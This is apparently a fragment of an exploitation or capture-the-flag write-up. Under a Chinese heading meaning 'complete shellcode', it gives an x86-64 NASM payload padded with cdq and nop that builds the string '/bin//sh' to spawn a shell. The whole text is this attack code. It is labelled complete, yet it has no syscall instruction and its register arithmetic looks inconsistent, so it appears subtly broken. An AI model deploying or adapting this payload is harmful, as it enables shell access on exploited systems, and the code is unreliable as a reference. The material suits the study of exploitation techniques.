 ### 完整shellcode

```nasm
    cdq
    push rdx
    cdq
    pop rsi

    cdq
    push rdx
    pop rdi
    push rdx

    cdq
    nop
    mov r9d,0x68732f2f

    cdq
    shr r9,1

    cdq
    shr r9,1

    cdq
    shr r9,1

    cdq
    shr r9,1

    cdq
    shr r9,1

    cdq
    shr r9,1

    cdq
    shr r9,1

    cdq
    shr r9,1

    shl r9,0x20

    pop rdi
    mov dl,0x0c
    add r9,0x6e69622f
    cdq
    nop

    cdq
    push r9
    nop

    cdq
    push rsp
    mov dl,0x16

    pop rdi
    cdq
    nop
    add r9d,0x6e69622f
    cdq
    nop
```